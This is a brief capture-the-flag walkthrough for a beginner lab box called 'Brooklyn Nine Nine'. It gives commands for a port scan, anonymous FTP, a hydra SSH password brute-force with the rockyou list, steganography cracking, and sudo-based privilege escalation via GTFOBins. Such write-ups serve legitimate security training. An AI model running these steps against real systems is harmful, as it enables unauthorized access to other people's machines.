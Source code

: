 # Brooklyn Nine Nine

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box.

## Deploy and get hacking

This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box. If you find more dm me in discord at Fsociety2006.

### Method one
#### User flag

```
nmap -Pn -vv -p- <target>

Ports
21 - FTP
22 - SSH

ftp <target>
Login: Anonymous
Password:
get <file>

hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<target>

ssh jake@<target>
```

#### Root flag

```
sudo -l

Go to GTFOBins <binary from previous step>
```

### Method two
#### User flag

```
Go to website and read comments in 'Inspect' tab

wget <target url>

stegocracker <downloaded image> /usr/share/wordlists/rockyou.txt

ssh holt@<target>
```

#### Root flag

```
sudo -l

Go to GTFOBins <binary from previous step>
```